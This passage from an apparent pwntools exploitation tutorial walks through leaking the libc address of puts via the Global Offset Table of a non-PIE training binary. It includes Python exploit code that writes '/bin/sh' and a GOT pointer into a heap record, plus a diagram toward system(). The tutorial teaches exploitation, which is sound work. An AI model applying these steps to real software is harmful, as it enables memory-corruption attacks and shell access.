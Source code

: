 {{< /details >}}

Next the script starts the target process, and clears any existing output.  Since the binary is not position-independent (does not use ASLR), the *location* of the `puts` pointer is known ahead of time, and can be automatically calculated by using `ELF.got.puts`.

```python
from pwn import *

context.binary = e = ELF('got')

print("puts@got is at ", hex(e.got.puts))

# Start the process
io = e.process()
io.clean()
```

Next, we use the `fit()` functionality to create the `struct record student` on the heap.  Note that `fit()` fills any intermediary bytes with the `cyclic()` pattern for free, making it easy to determine what offsets one might need in the future.

`fit` is a very powerful tool and can create nested data structures.  `tube.fit` does this and automatically sends the data over the tube.  Since `io` here is a `process` tube, everything is automagic.  Note that we have to manunally specify a NUL byte terminator for `/bin/sh`.

```python
# We have 28 bytes, and 4 of them will be dumped
io.fit({
	0: '/bin/sh\x00',
	24: e.got.puts
})
```

### Memory Leak Details

Our goal is to leak the real address of `puts`, by leveraging its presence in the Global Offset Table.  The diagram looks somewhat like what's below.

```text
  record                                        
┌─────────┐                                     
│         │            Global Offset Table      
│         │         ┌───────────────────────┐   
│         │         │         puts          │   
│         │    ┌───▶│                       │──┐
│         │    │    ├───────────────────────┤  │
│  name   │    │    │        printf         │  │
│         │    │    │                       │  │
│         │    │    ├───────────────────────┤  │
│         │    │    │          ...          │  │
│         │  leak   │                       │  │
│         │    │    └───────────────────────┘  │
├─────────┤    │                               │
│         │    │                               │
│ message │────┘                               │
│         │                                    │
└─────────┘      ┌─────────────────────────────┘
                 │                              
libc.so.6────────┼───────────────────────────┐  
│  ┌─────┐       │             ┌───────┐     │  
│  │puts │◀──────┘             │system │     │  
│  └─────┘                     └───────┘     │  
│                                            │  
│              ┌───────┐                     │  
│              │printf │                     │  
│              └───────┘                     │  
```